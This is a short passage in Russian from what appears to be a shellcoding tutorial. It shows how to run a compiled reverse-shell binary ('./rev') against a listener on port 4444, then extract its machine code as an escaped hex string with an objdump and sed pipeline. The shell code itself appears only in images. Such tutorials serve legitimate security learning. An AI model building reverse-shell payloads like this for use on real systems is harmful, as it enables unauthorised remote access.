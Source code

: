 ![compile shellcode 2](./images/14/2021-10-16_13-57.png){width="80%"}       

Подготавливаем слушатель на порту `4444` и запускаем:
```bash
./rev
```

![compile shellcode 2](./images/14/2021-10-16_14-08.png){width="80%"}       

Отлично!

Затем извлекаем байт-код с помощью небольшого bash-скрипта и `objdump`:
```bash
objdump -d ./rev|grep '[0-9a-f]:'|grep -v 'file'|cut -f2
 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|
 sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

![get hex](./images/14/2021-10-16_13-58.png){width="80%"}       

